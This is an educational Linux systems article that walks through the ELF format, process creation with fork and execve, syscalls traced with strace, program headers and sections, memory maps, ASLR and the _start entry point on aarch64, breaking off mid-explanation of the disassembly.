



# **ELF & Dynamic Linking**

# **Introduction**

Surely all of us have seen that we run `./app` and within milliseconds we have a live process in the system. For the vast majority of modern developers, that brief lapse of time is an act of faith, a black box that simply "happens". For a kernel hacker, however, it is the beginning of a determined choreography whose steps very few people know today.

We live in the era of the eclipse of technical curiosity. We have allowed ourselves to be seduced by an ecosystem of abstractions so tall that nobody bothers anymore to look downward and dive into the depths where the real magic happens. Between Kubernetes, microservices, eBPF turned into a "product", and the current fascination with AI-driven vibe coding, we have built a technological ivory tower. The problem is that the taller the tower, the more fragile its foundations become for those who do not know how they were built.

We have grown used to things "just working", but that comfort comes at a price: the loss of control. Today, when an abstraction breaks, most people are confronted with an uncomfortable and naked reality. They realize that Linux is still the fundamental pillar holding the entire building up, yet they treat it like a capricious deity that is worshiped only when it fails, instead of understanding it as the precision machine that it is. We no longer teach how the system breathes; we teach how to consume APIs that hide the beauty of silicon. If you do not understand how the runtime works, you do not own your execution; you merely have a loan from the kernel.

This article is born out of the need to recover that lost interest in what happens in the shadows of the operating system. The idea of this series is to resume the path I began years ago on the now-defunct [CodigoUnix.com.ar](http://www.codigounix.com.ar) and unravel the supposed "black magic" that takes place between the keyboard and the processor. Spoiler: there is no magic, only data structures, calling conventions, and perfectly orchestrated memory jumps.

In this installment, we are going down into the mud. We are going to dissect the ELF format (*Executable and Linkable Format*), the behavior of the Dynamic Linker, and the critical structures that allow a handful of static bytes on disk to become a dynamic entity in memory. Welcome back to the depths. It is time to stop staring at the surface and finally understand what is really happening down there.

```text
And then it happened, a door opened to the world. Running through the
telephone lines like heroin through an addict's veins, an electronic pulse
is sent, a refuge from the incompetence of everyday life is sought... a
lifeline is found.

"This is it. This is the place where I belong."

Hacker Manifesto (The Mentor, 1986)
```

# **What is ELF?**

When we execute a binary on Linux with a simple `./app`, it feels almost magical. But behind that gesture there is a carefully designed structure that the operating system understands perfectly: the ELF format (Executable and Linkable Format). ELF is not just an executable file; it is the contract between your compiled code, the system loader, and memory. Understanding it is the first step toward seeing Linux not as a black box, but as a transparent system where every byte has a purpose.

If we open an ELF file, the first thing we find is not code being executed, but metadata. A lot of metadata. ELF is designed as an organized structure that describes how a program must be loaded and executed, not just the program itself.

At a high level, an ELF file is divided into three main parts:

* **ELF Header:** the front door. It defines what kind of file this is (executable, library, object), the architecture (x86, ARM), and where to find the rest of the internal structures.
* **Program Headers (segments):** these tell the operating system how to map the binary into memory. This is the part the loader actually cares about at runtime.
* **Section Headers (sections):** these organize the file contents for the linker and for analysis tools (such as `.text`, `.data`, `.bss`, `.symtab`, etc.).

This is not theory. You can inspect all of this from any Linux distribution. We will need a few basic tools such as `gcc`, `strace`, `ps`, `readelf`, `objdump`, and of course a text editor (`Vim` <3).

> Note: the source code for the article examples is available in `./src`. There is also a minimal `README.md` there, and I included a `Makefile` in this same directory to build the binaries exactly as they are used in the examples.

# **A Mysterious Journey into the Linux Kernel**

Let’s begin with the classic of all classics:

```c
// hello_world.c
#include <stdio.h>

int main() {
    printf("Hello world!\n");
    return 0;
}
```

Let’s compile it:

```bash
%: gcc hello_world.c -o hello_world
```

Before talking about ELF, headers, or memory, let’s start with what we really do every day. We have a shell such as `/bin/bash`, `/bin/sh`, or any other. From there we execute the program we just compiled:

```bash
%: ./hello_world
Hello world!
```

At first glance it looks like the shell is executing that binary. But that is not actually what happens. The shell does not execute programs by itself; what it does is invoke a system call: `execve`.

In practice, the flow is this: the shell creates a new process (`fork`) and then calls `execve`, which completely replaces that process image with the binary we want to execute.

But to understand more clearly what is going on, we first need to introduce a key concept: **`fork`**.

`fork` is a system call that creates a new process. When a program invokes it, the kernel generates a child process that is, essentially, a copy of the current process. Both processes (parent and child) continue executing from the same point, but with one important difference: each one receives a different return value, which allows them to take different execution paths.

Every process in Linux has a unique identifier called a PID (Process ID). When a `fork` happens, the child process receives its own PID, different from the parent. At the same time, the child keeps a reference to its creator through the PPID (Parent Process ID), which tells us who spawned it.

This means processes do not exist in isolation; they form a hierarchy: every process, except the initial one, has a parent and can in turn spawn children. Open a terminal and run `pstree` to see this in more detail:

```text
systemd─┬─ModemManager───3*[{ModemManager}]
        ├─agetty
        ├─avahi-daemon───avahi-daemon
        ├─cron
        ├─dbus-daemon
        ├─multipathd───6*[{multipathd}]
        ├─polkitd───3*[{polkitd}]
        ├─rsyslogd───3*[{rsyslogd}]
        ├─sshd───sshd───bash───pstree
        ├─sshd
        ├─systemd───(sd-pam)
        ├─systemd-journal
        ├─systemd-logind
        ├─systemd-network
        ├─systemd-resolve
        ├─systemd-timesyn───{systemd-timesyn}
        ├─systemd-udevd
        ├─udisksd───5*[{udisksd}]
        └─unattended-upgr───{unattended-upgr}
```

This mechanism is fundamental in Unix-like systems because it allows a program like the shell to create a new process without disappearing itself. That new process is the one that can later turn into a completely different program.

## **Everything Is a File**

Every time a new process is created with `fork`, the kernel not only assigns it a new PID, it also exposes that process inside the pseudo-filesystem `/proc`. That means a new directory automatically appears at `/proc/<PID>`, representing the running process and allowing it to be inspected from user space.

Inside that directory there are many files and subdirectories that reflect the process state, but one of the most interesting is `/proc/<PID>/fd`. This directory contains the file descriptors opened by the process, represented as symbolic links.

We can see this easily by inspecting the file descriptors opened by our current process. For that we can use the special variable `$$`, which contains the PID of the running process:

```bash
%: ls -al /proc/$$/fd/ 
total 0
dr-x------ 2 tty0 tty0  4 Apr  5 19:09 .
dr-xr-xr-x 9 tty0 tty0  0 Apr  5 19:09 ..
lrwx------ 1 tty0 tty0 64 Apr  5 19:09 0 -> /dev/pts/0
lrwx------ 1 tty0 tty0 64 Apr  5 19:09 1 -> /dev/pts/0
lrwx------ 1 tty0 tty0 64 Apr  5 19:09 2 -> /dev/pts/0
lrwx------ 1 tty0 tty0 64 Apr  5 19:09 255 -> /dev/pts/0
```

Each entry corresponds to an open file descriptor. For example, `0`, `1`, and `2` represent stdin, stdout, and stderr, and in this case they all point to the same terminal (`/dev/pts/0`).

By default, every Unix process starts with three standard file descriptors: 0, 1, and 2. Every file or network connection the process opens receives a new file descriptor number that identifies it.

| 0 | STDIN | Standard input, usually connected to the keyboard. |
| :---- | :---- | :---- |
| 1 | STDOUT | Standard output, usually the terminal (screen). |
| 2 | STDERR | Standard error, also tied to the terminal (logs). |

Network connections in Unix are represented as sockets, a special kind of file. The kernel exposes them as file descriptors, which means you can use `read()`, `write()`, or `poll()` on them just like you would with normal files.

File descriptors are inherited across `fork`, which means the child process begins with the same input and output channels as its parent. That is why when we execute a program from the shell, its input and output appear in the same terminal.



That “copy”, however, does not mean the kernel immediately duplicates all memory. In practice, Linux uses a mechanism called **copy-on-write (CoW)**.

At fork time, parent and child temporarily share the same memory pages. Only when one of them tries to modify that memory does the kernel create an independent copy.

That makes `fork` much more efficient than it might seem, since it avoids copying large amounts of memory unnecessarily.

To understand this better, it is useful to distinguish between two concepts: **virtual memory** and actual memory usage.

Every process has its own virtual address space, which represents the full set of addresses it can use. But that does not mean all of that memory is actually loaded into RAM.

Real memory usage is measured with the **Resident Set Size** (**RSS**), which tells us how many of the process pages are physically present in memory at a given moment.

In the case of `fork`, both parent and child may have the same virtual memory space while physically sharing the same pages, so RSS does not double immediately.

Only when one of the processes attempts to write to one of those shared pages does a special event occur: a **page fault**. At that moment the kernel steps in, creates a copy of the page, and updates the references so each process gets its own version.

We can inspect real memory and RSS with `ps`:

```bash
%: ps -o pid,rss,vsz,cmd
    PID   RSS    VSZ CMD
  41720  5556   8620 -bash
  59003  3904  10668 ps -o pid,rss,vsz,cmd
```

## **System Calls**

To understand what is really going on, we have to start from a fundamental idea: in Linux, the world is split into two spaces. On one side there is user space, where our programs live: the shell, the browser, and any application we run. On the other side there is kernel space, where the operating system kernel lives, with full control over hardware and system resources.

A program in user space cannot do just anything. It is isolated by design. It can execute code and manage its own memory, but it cannot directly access the disk, the network, or the processor at a low level. That restriction is not arbitrary; it is what guarantees system safety and stability. If a program wants to write a file, send data over the network, or, as in our case, execute another binary, it must ask the kernel to do it. That is where system calls come in.

A syscall is the controlled interface that allows a user-space program to request a privileged operation from the kernel. It is the only entry point into kernel space. When the shell invokes `execve`, what it is really doing is completely delegating execution to the kernel. It is a way of saying: “Here is an ELF file. I cannot do much with it at a low level, but you can. Load it into memory and run it.”

The kernel does not understand `write`, `open`, or `execve` by name. What it actually understands are numbers. Every syscall has a unique identifier defined inside the kernel itself. When a program wants to execute a syscall, it loads that number into a register and executes a special instruction (`syscall` on x86_64) that transfers control to the kernel. You can see it directly in the kernel source. On x86_64 architectures: [https://elixir.bootlin.com/linux/v6.19.11/source/arch/x86/entry/syscalls/syscall_64.tbl](https://elixir.bootlin.com/linux/v6.19.11/source/arch/x86/entry/syscalls/syscall_64.tbl)

So when a program invokes `execve`, what it is really doing is executing syscall number 59 on x86_64.

There is a tool that lets us watch them in real time: `strace`. It intercepts and shows the system calls a program performs as it runs. Instead of seeing high-level functions like `printf`, what we see is the actual conversation between the program and the kernel.

```bash
%: strace -f ./hello_world
execve("./hello_world", ["./hello_world"], 0xffffe9514538 /* 26 vars */) = 0
brk(NULL)                               = 0xbbabf2db5000
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfa3c1622e000
faccessat(AT_FDCWD, "/etc/ld.so.preload", R_OK) = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=38859, ...}) = 0
mmap(NULL, 38859, PROT_READ, MAP_PRIVATE, 3, 0) = 0xfa3c16224000
close(3)                                = 0
openat(AT_FDCWD, "/lib/aarch64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\\177ELF\\2\\1\\1\\3\\0\\0\\0\\0\\0\\0\\0\\0\\3\\0\\267\\0\\1\\0\\0\\0\\360\\206\\2\\0\\0\\0\\0\\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0755, st_size=1722920, ...}) = 0
mmap(NULL, 1892240, PROT_NONE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_DENYWRITE, -1, 0) = 0xfa3c16027000
mmap(0xfa3c16030000, 1826704, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0) = 0xfa3c16030000
munmap(0xfa3c16027000, 36864)           = 0
munmap(0xfa3c161ee000, 28560)           = 0
mprotect(0xfa3c161ca000, 77824, PROT_NONE) = 0
mmap(0xfa3c161dd000, 20480, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x19d000) = 0xfa3c161dd000
mmap(0xfa3c161e2000, 49040, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xfa3c161e2000
close(3)                                = 0
set_tid_address(0xfa3c1622ef90)         = 58966
set_robust_list(0xfa3c1622efa0, 24)     = 0
rseq(0xfa3c1622f5e0, 0x20, 0, 0xd428bc00) = 0
mprotect(0xfa3c161dd000, 12288, PROT_READ) = 0
mprotect(0xbbabc576f000, 4096, PROT_READ) = 0
mprotect(0xfa3c16233000, 8192, PROT_READ) = 0
prlimit64(0, RLIMIT_STACK, NULL, {rlim_cur=8192*1024, rlim_max=RLIM64_INFINITY}) = 0
munmap(0xfa3c16224000, 38859)           = 0
fstat(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(0x88, 0x1), ...}) = 0
getrandom("\\xd9\\xfa\\xb1\\x22\\x0f\\x48\\xa0\\x76", 8, GRND_NONBLOCK) = 8
brk(NULL)                               = 0xbbabf2db5000
brk(0xbbabf2dd6000)                     = 0xbbabf2dd6000
write(1, "Hello world!\\n", 13Hello world!
)          = 13
exit_group(0)                           = ?
\+++ exited with 0 \+++
```

If we run the program with `strace`, what we see is exactly the conversation between our program and the kernel. It all starts with:

```bash
execve("./hello_world", ["./hello_world"], ...)
```

That is the key syscall. `execve` is responsible for loading and executing a new program. It receives three arguments: the executable path, the argument array (`argv`), and the environment (`envp`).

That second parameter we see in `strace`:

```bash
["./hello_world"]
```

corresponds to `argv`, the array of arguments the program receives. By convention, the first element is always the name of the executable.

From that array, the kernel builds two fundamental values that the program receives as soon as execution begins:

* **argc**: the argument count  
* **argv**: the vector of argument strings

For example, if we run:

```bash
%: ./hello_world foo bar 
argc = 3
argv = ["./hello_world", "foo", "bar"]
```

These values do not magically appear in `main`. The kernel prepares them as part of the initial process environment so the program can access them immediately.

When this call occurs, the current process is completely replaced: its memory, code, and previous state disappear, and the new binary is loaded in its place. From that moment on, everything we see in the trace corresponds to the initialization of the new program.

Later we see multiple syscalls related to memory (`mmap`, `brk`, `mprotect`) and file access (`openat`, `read`). But all of that work happens before our program actually does anything visible.

The sequence around `read()` is especially interesting:

```bash
openat(AT_FDCWD, "/lib/aarch64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\\177ELF\\2\\1\\1\\3\\0\\0\\0\\0\\0\\0\\0\\0\\3\\0\\267\\0\\1\\0\\0\\0\\360\\206\\2\\0\\0\\0\\0\\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0755, st_size=1722920, ...}) = 0
mmap(NULL, 1892240, PROT_NONE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_DENYWRITE, -1, 0) = 0xfa3c16027000
```

First, the process opens the standard C library (`libc.so.6`) with `openat`, in read-only mode and with the `close-on-exec` flag, obtaining file descriptor `3`. Then it reads the first bytes of the file. That first `read()` is not random: it corresponds to the ELF header, which lets the loader understand how the binary is structured.

Then, via `fstat()`, it obtains metadata about the already-open file such as size and permissions without resolving the path again. With that, the loader has everything it needs for the next step: mapping `libc` into memory with `mmap()`. At that point, the file stops being “just a file on disk” and becomes part of the process.

It is also worth paying attention to `close()`:

```bash
close(3)              = 0
```

A return value of `0` means the syscall successfully released the file descriptor.

Finally we reach this line:

```bash
write(1, "Hello world!\\n", 13)
```

This is the observable effect. The syscall writes 13 bytes to file descriptor 1, which corresponds to standard output (`stdout`), meaning the terminal.

That matters because the program is not “printing to the screen” directly. What it does is invoke `write`, a syscall that asks the kernel to write data into a file descriptor. You can see it in the Linux manual page for the syscall itself:

```text
%: man 2 write
NAME
       write - write to a file descriptor

LIBRARY
       Standard C library (libc, -lc)

SYNOPSIS
       *#include <unistd.h>*

       ssize_t write(int fd, const void buf[.count], size_t count);

DESCRIPTION
       write() writes up to count bytes from the buffer starting at buf to the file referred to by the file descriptor fd.

       The  number  of  bytes  written  may  be  less  than  count if, for example, there is insufficient space on the underlying physical medium, or the RLIMIT_FSIZE resource limit is encountered (see setrlimit(2)), or the call was interrupted by a signal handler after having written less than count bytes.  (See also
       pipe(7).)

       For a seekable file (i.e., one to which lseek(2) may be applied, for example, a regular file) writing takes place at the file offset, and the file offset is incremented by the number of bytes actually written.  If the file was open(2)ed with O_APPEND, the file offset is first set to the end of the  file  before
       writing.  The adjustment of the file offset and the write operation are performed as an atomic step.

       POSIX requires that a read(2) that can be proved to occur after a write() has returned will return the new data.  Note that not all filesystems are POSIX conforming.

       According to POSIX.1, if count is greater than SSIZE_MAX, the result is implementation-defined; see NOTES for the upper limit on Linux.
```

Knowing that, we could bypass high-level functions like `printf` or `puts` and call the `write()` syscall directly:

```c
// hello_world_write.c #include <unistd.h> // Needed for write

int main() {
char *msg = "Hello world!\\n";

// write(fd, buffer, count)
// fd = 1 -> stdout
write(1, msg, 13);

return 0;
}
```

We compile it again with `gcc`:

```bash
%: gcc ./hello_world_write.c -o ./hello_world_write
```

And when we run it, we get the same result:

```bash
*%: ./hello_world_write* 
Hello world!
```

# **ELF Header: The Binary's Identity**

Let us inspect the header of the generated binary (`./hello_world`):

```text
%: readelf -h ./hello_world ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00
  Class:                             ELF64
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              DYN (Position-Independent Executable file)
  Machine:                           AArch64
  Version:                           0x1
  Entry point address:               0x640
  Start of program headers:          64 (bytes into file)
  Start of section headers:          68528 (bytes into file)
  Flags:                             0x0
  Size of this header:               64 (bytes)
  Size of program headers:           56 (bytes)
  Number of program headers:         9
  Size of section headers:           64 (bytes)
  Number of section headers:         28
  Section header string table index: 27
```

At first glance this may look like noise, but in reality it contains everything the operating system needs to begin understanding the file.

Inside the header, perhaps the most interesting field is **Magic** (`7f 45 4c 46`): it is literally the file signature. It tells the system: *this is an ELF file*.

There is a nice detail here. If we print those bytes in Python:

```bash
%: python3 -c 'print("\\x7f\\x45\\x4c\\x46")'
ELF
```

what we see is the ASCII representation of `ELF`, preceded by the `0x7f` byte, which is not printable but acts as a special marker.

So what looked like just another `read()` in `strace` was actually the first step that allows the kernel to execute the program.

This is not accidental. Many binary formats begin with a *magic number* so the system and tools like `file` can quickly identify the file type without ambiguity.

If we keep reading the header, we find a field that may seem minor at first, but tells us much more than it appears to:

```bash
Type: DYN (Position-Independent Executable file)
```

At first glance we might think we are looking at a shared library, since `.so` objects are also type DYN. But in this case it is actually an executable compiled as a **PIE** (Position Independent Executable).

That means the binary does not have fixed addresses baked in at compile time. Instead, it is built so it can be loaded at different memory addresses each time it runs. Its addresses are relative and can be adjusted dynamically at load time.

That is what allows the binary to work together with mechanisms like ASLR, where the memory layout changes on every execution. Without PIE, the main program would always stay pinned to the same address, making its behavior far more predictable.

In other words, this DYN does not mean the binary is “dynamic” in the usual sense, but that it is prepared not to depend on a fixed location in memory.

Before the kernel even thinks about executing anything, the very first thing it does is validate: *is this really what I think it is?* And the answer begins in the first four bytes.

If you remember the `strace` from earlier, there was a line that could easily go unnoticed:

```bash
read(3, "\\177ELF\\2\\1\\1\\3\\0\\0\\0\\0\\0\\0\\0\\0...", 832) = 832
```

That is precisely when the system is reading the ELF file header.

Likewise, the Linux `file` command determines what type of file something is by doing exactly that: reading the first bytes.

```bash
%: file ./hello_world
./hello_world: ELF 64-bit LSB pie executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, BuildID[sha1]=be76f6465982c1063047aad9324cd6fc9ef1a623, for GNU/Linux 3.7.0, not stripped
```

ELF reserves the first 16 bytes of the file for a structure called `e_ident`, which defines the binary’s basic rules: its class, its endianness, and how the rest of the file should be interpreted.

| Offset | Value | Meaning |
| :---- | :---- | :---- |
| 0 | `0x7f` | Special marker |
| 1-3 | `45 4c 46` | 'E' 'L' 'F' -> signature |
| 4 | `02` | Class -> 64 bits (ELF64) |
| 5 | `01` | Endianness -> little endian |
| 6 | `0` | ELF version (current = 1) |
| 7 | `00` | OS/ABI -> System V |
| 8 | `00` | ABI version |
| 9-15 | `00 …` | Padding |

Once you understand the magic, the rest starts making sense. We know it is a 64-bit binary and that it uses little-endian representation.

At this point another key concept appears: the ABI (Application Binary Interface). While `e_ident` tells us what the file is and how to read it, the ABI defines how that binary is expected to behave once loaded into memory. It sets the rules of the game: how arguments are passed to functions, how it interacts with the operating system, and how it links against dynamic libraries.

Up to this point we understand how the system identifies an ELF, how it interprets its first bytes, and under which rules it must behave. But there is still one major question left: how does this file on disk become a running process?

If we go back to the header, some fields we ignored earlier become essential:

```bash
Entry point address:               x640
Start of program headers:          64 (bytes into file)
Number of program headers:         9
```

These values do not describe *what* the file is, but *how to walk through it*. In particular, they tell the system where to find one of the most important ELF structures: the Program Headers. The kernel does not execute the entire file. It only loads into memory what the Program Headers tell it to.

**Dynamic Linking: when the binary is not alone**

To really understand what happens when we run `./hello_world`, we have to stop looking at the file as a bag of bytes and start looking at it as a set of segments that get mapped into memory.

```bash
%: readelf -l ./hello_world
```

This shows the Program Headers, that is, the segments the kernel will use to load the binary:

```text
Program Headers:
  Type           Offset   VirtAddr           PhysAddr
                 FileSiz  MemSiz              Flags  Align

  LOAD           0x000000 0x0000000000000000 ...
  LOAD           0x001000 0x0000000000001000 ...
  INTERP         0x0002a8 0x00000000000002a8 ...
  DYNAMIC        0x000e00 0x0000000000000e00 ...
```

Each one of these segments represents a memory region the kernel maps into the process.

* **LOAD:** segments that hold program code and data.
* **INTERP:** tells the kernel which program must load this binary.
* **DYNAMIC:** contains the information needed to resolve dynamic dependencies.

In other words, ELF is not loaded as a whole. The kernel selects which parts to map into memory and with what permissions, exactly as described by these headers.

If the binary has an INTERP segment, the kernel does not execute our program directly. Instead, it first loads that interpreter into memory and transfers control to it. That interpreter is the dynamic linker.

Without going into its internals yet, one idea matters here: on Linux, most binaries are dynamically linked.

That means the binary does not contain all the code it needs to run. Part of its functionality is delegated to external libraries such as `libc`, which will be loaded at runtime by the dynamic linker.

**Our binary is not self-sufficient; it needs other pieces to run.**

# **Sections and Segments**

If we move away from segments and return to a more logical view of the program, we encounter sections, which group different kinds of data by purpose:

* **`.text`**: executable code  
* **`.data`**: initialized global variables  
* **`.bss`**: uninitialized global variables  
* **`.rodata`**: read-only data such as strings

These sections represent the program as it was compiled, and later they are used to build the segments we saw earlier.

```text
%: readelf -S ./hello_world

There are 28 section headers, starting at offset 0x10bb0:
Section Headers:
[Nr] Name            Type        Flags
[ 1] .interp         PROGBITS    A
[ 5] .dynsym         DYNSYM      A
[ 6] .dynstr         STRTAB      A
[ 9] .rela.dyn       RELA        A
[10] .rela.plt       RELA        AI
[12] .plt            PROGBITS    AX
[13] .text           PROGBITS    AX
[15] .rodata         PROGBITS    A
[20] .dynamic        DYNAMIC     WA
[21] .got            PROGBITS    WA
[22] .data           PROGBITS    WA
[23] .bss            NOBITS      WA
[25] .symtab         SYMTAB
[26] .strtab         STRTAB
...
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  D (mbind), p (processor specific)
```

The flags are not a minor detail. They tell the system what can be done with that memory region once loaded. `A` means it will be allocated in memory, `X` means it is executable, and `W` means it is writable. Those permissions are later reflected directly in how the kernel maps the corresponding segments.

**From file to process: how it lives in memory**

Not all of a process’ memory comes from the ELF file. Once the program runs, the system creates other fundamental regions too:

* **Stack:** local variables and function context  
* **Heap:** dynamic memory requested at runtime

Unlike ELF sections, these regions do not live “inside the file”; they are created by the system when execution starts.

A key idea is worth remembering:

**Sections explain how the program exists on disk.**  
**Segments define how it lives in memory.**

When we talk about the binary stored on disk, we are talking about sections. Once executed, those are transformed into memory segments.



This diagram shows how an ELF file on disk becomes a process in memory. At the bottom you can see sections like `.text`, `.rodata`, `.data`, and `.bss`, representing the program as it was compiled. Those sections are not loaded in isolation; the kernel groups them and maps them through the segments we discussed earlier.

As we move upward in address space, other regions appear that do not come directly from the ELF, such as shared libraries dynamically loaded at runtime. Above them sits the heap, which grows upward as memory is requested dynamically, and finally the stack, which grows in the opposite direction.

All of this is not just an abstraction. We can inspect it directly through `/proc/<PID>/maps`:

```text
%: cat /proc/$$/maps
c2e54ddf0000-c2e54df54000 r-xp 00000000 fc:00 262179   /usr/bin/bash
c2e54df6b000-c2e54df70000 r--p 0016b000 fc:00 262179   /usr/bin/bash
c2e54df70000-c2e54df79000 rw-p 00170000 fc:00 262179   /usr/bin/bash
c2e54df79000-c2e54df84000 rw-p 00000000 00:00 0
c2e55a36f000-c2e55a3d2000 rw-p 00000000 00:00 0        [heap]
ecbf78a00000-ecbf78ceb000 r--p 00000000 fc:00 263150   /usr/lib/locale/locale-archive
ecbf78d60000-ecbf78efa000 r-xp 00000000 fc:00 263119   /usr/lib/aarch64-linux-gnu/libc.so.6
ecbf78faa000-ecbf78fac000 r--p 00000000 00:00 0        [vvar]
ecbf78fac000-ecbf78fad000 r-xp 00000000 00:00 0        [vdso]
ecbf78fad000-ecbf78faf000 r--p 0002e000 fc:00 263006   /usr/lib/aarch64-linux-gnu/ld-linux.so.1
ffffe14e3000-ffffe1504000 rw-p 00000000 00:00 0        [stack]
```

The first field shows the virtual address range, while the second shows the permissions. These follow the classic Unix model: `r` for read, `w` for write, `x` for execute, and `p` for private mappings.

A region marked `r-xp` usually corresponds to executable code such as the binary or `libc`, while `rw-p` typically represents writable memory like the heap or the stack.

One interesting detail is that these addresses are not fixed. If you execute the program several times, they change. That is due to **ASLR** (Address Space Layout Randomization), a security mechanism that introduces randomness into the memory layout.

Its behavior can be tuned through `kernel.randomize_va_space`. On modern systems it is usually set to `2`, enabling full process address-space randomization.

```bash
%: sysctl kernel.randomize_va_space
kernel.randomize_va_space = 2 
```

# **The Real Beginning: _start**

So far we have seen how a binary is organized on disk, how the kernel loads it into memory, and how components such as the dynamic linker and dynamic libraries participate. But one final question remains: where does program execution really begin?

If we go back to the ELF header, there is a field we have not analyzed in depth:

```bash
Entry point address: 0x640
```

At first glance one might think that corresponds to `main`, but it does not.

Once the kernel finishes loading the binary and, if needed, the dynamic linker, it transfers control to that entry address. That point usually corresponds to a special function called `_start`, generated by the compiler as part of the program runtime.

`_start` prepares the initial environment: stack, heap, arguments (`argc`, `argv`), and eventually the call to the `main` function we wrote in `hello_world.c`.

To understand what really happens at the entry point, we need to look at machine code. That is where `objdump` comes in.

```bash
%: objdump -d ./hello_world
```

If we want to be more specific, we can go straight to `_start`:

```text
%: objdump -d --disassemble=_start ./hello_world

Disassembly of section .text:

0000000000000640 <_start>:
 640:	d503201f 	nop
 644:	d280001d 	mov	x29, #0x0                   	// #0
 648:	d280001e 	mov	x30, #0x0                   	// #0
 64c:	aa0003e5 	mov	x5, x0
 650:	f94003e1 	ldr	x1, [sp]
 654:	910023e2 	add	x2, sp, #0x8
 658:	910003e6 	mov	x6, sp
 65c:	f00000e0 	adrp	x0, 1f000 <__FRAME_END__+0x1e768>
 660:	f947f800 	ldr	x0, [x0, #4080]
 664:	d2800003 	mov	x3, #0x0                   	// #0
 668:	d2800004 	mov	x4, #0x0                   	// #0
 66c:	97ffffe1 	bl	5f0 <__libc_start_main@plt>
 670:	97ffffec 	bl	620 <abort@plt>
```

The symbol `_start` is the real entry point of the program. It is the first instruction executed once the kernel or the dynamic linker transfers control to the binary.

In the disassembly we can see how registers associated with the stack frame are initialized, such as the frame pointer (`x29`) and the link register (`x30`).

A **stack frame** is the portion of the stack that belongs to a currently running function. It stores local variables, arguments, and the return address. Every time a function is called, a new stack frame is created.

```bash
ldr x1, [sp]
add x2, sp, #0x8
```

